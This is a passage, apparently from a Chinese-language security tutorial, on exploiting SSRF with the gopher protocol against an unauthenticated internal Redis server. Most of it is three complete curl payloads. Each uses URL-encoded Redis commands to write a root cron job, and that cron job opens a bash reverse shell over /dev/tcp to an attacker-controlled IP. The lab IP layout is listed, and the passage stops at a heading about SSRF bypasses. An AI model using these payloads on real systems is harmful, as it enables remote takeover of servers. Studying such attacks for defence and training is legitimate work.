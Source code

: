 将r字符串替换成%0d%0a

空白行替换为%0a

结合gopher协议攻击内网redis，使用上边捕获数据的转换结果即可，然后进行反弹shell（192.168.1.4是存在redis未授权访问漏洞的服务器）：



```
curl -v 'http://192.168.1.124:8000/ssrf.php?url=gopher://192.168.1.4:6379/_*1 %250d %250a %248%250d %250aflushall %250d %250a %2a3 %250d %250a %243%250d %250aset %250d %250a %241%250d %250a1 %250d %250a %2464%250d %250a %250d %250a %250a %250a %2a %2f1 %20%2a %20%2a %20%2a %20%2a %20bash %20-i %20%3E %26%20%2fdev %2ftcp %2f121.36.67.230 %2f5555 %200%3E %261%250a %250a %250a %250a %250a %250d %250a %250d %250a %250d %250a %2a4 %250d %250a %246%250d %250aconfig %250d %250a %243%250d %250aset %250d %250a %243%250d %250adir %250d %250a %2416%250d %250a %2fvar %2fspool %2fcron %2f %250d %250a %2a4 %250d %250a %246%250d %250aconfig %250d %250a %243%250d %250aset %250d %250a %2410%250d %250adbfilename %250d %250a %244%250d %250aroot %250d %250a %2a1 %250d %250a %244%250d %250asave %250d %250aquit %250d %250a'
```



```
curl -v 'http://192.168.1.124:8000/ssrf.php?url=gopher://192.168.1.4:6379/__*1%0D%0A%247%0D%0ACOMMAND%0D%0A*3%0D%0A%243%0D%0Aset%0D%0A%245%0D%0Ashell%0D%0A%2464%0D%0A%0D%0A%0D%0A*%2F1%20*%20*%20*%20*%20%2Fbin%2Fbash%20-i%3E%26%2Fdev%2Ftcp%2F192.168.110.141%2F4789%200%3E%261%0D%0A%0D%0A%0D%0A*4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A%2Fvar%2Fspool%2Fcron%2F%0D%0A*4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A*1%0D%0A%244%0D%0Asave'
```

 

构建Payload：

SSRF漏洞主机IP：192.168.0.2

Redis未授权主机IP：192.168.110.133

Kali linux攻击机器IP：192.168.110.141

 



```
curl -v 'http://192.168.0.2/ssrf.php?url=gopher://192.168.110.133:6379/_*1 %250d %250a %248%250d %250aflushall %250d %250a %2a3 %250d %250a %243%250d %250aset %250d %250a %241%250d %250a1 %250d %250a %2464%250d %250a %250d %250a %250a %250a %2a %2f1 %20%2a %20%2a %20%2a %20%2a %20bash %20-i %20%3E %26%20%2fdev %2ftcp %2f192.168.110.141 %2f6789 %200%3E %261%250a %250a %250a %250a %250a %250d %250a %250d %250a %250d %250a %2a4 %250d %250a %246%250d %250aconfig %250d %250a %243%250d %250aset %250d %250a %243%250d %250adir %250d %250a %2416%250d %250a %2fvar %2fspool %2fcron %2f %250d %250a %2a4 %250d %250a %246%250d %250aconfig %250d %250a %243%250d %250aset %250d %250a %2410%250d %250adbfilename %250d %250a %244%250d %250aroot %250d %250a %2a1 %250d %250a %244%250d %250asave %250d %250aquit %250d %250a'
```

 

# SSRF漏洞绕过方法：
